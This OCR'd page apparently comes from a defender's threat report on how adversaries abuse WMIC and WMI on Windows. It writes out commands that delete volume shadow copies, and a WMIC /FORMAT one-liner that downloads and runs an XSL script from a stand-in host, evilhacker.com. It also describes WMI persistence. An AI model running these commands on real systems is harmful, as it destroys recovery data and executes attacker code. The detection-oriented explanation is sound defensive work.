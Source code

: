 wmic shadowcopy delete /noninteractive 

Ironically, we sometimes see a less than stealthy version of this attack 
using WMIC: 

wmic process call create vssadmin.exe delete shadows /all /quiet 

The pattern above will cause wmiprvse.exe to spawn the vssadmin.exe process. 

In addition to enumerating and manipulating volume shadows, adversaries 
use WMIC to enumerate and modify dozens of aspects of a Windows system or 
environment. We’ve seen adversaries use WMIC to: 

• 

• 

• 

determine what antivirus product may be installed

stop the firewall service

enumerate group membership (including local and in many configurations, 
domain administrator accounts)

• modify dozens more items of interest 

We’ve also run into adversaries leveraging XSL Script Processing, which can be 
used to bypass application control and—courtesy of WMIC’s /format option—
download code from a remote location. 

71

 
ASSOCIATED THREATS

Here’s an example of what this can look like: 

CrackMapExec

Impacket

Mimikatz

Dumpert

Cobalt Strike

wmic os get /FORMAT:”http://evilhacker.com/attacker.xsl” 

When the above command is run, it will download and execute the contents of 
the XSL file. 

Adversaries also use WMI for persistence via the trio of WMI event consumers, 
filters, and filter\-to\-consumer bindings. Adversaries use this persistence 
mechanism to execute arbitrary code in response to activity on the endpoint 
such as a user logging in or out or a file being written to a specified path. 

Regardless of whether it’s a single endpoint, an endpoint in an Active Directory 
domain, or an Azure VM, the WMI service will be running and available to 
adversaries who have already compromised an endpoint or identity.
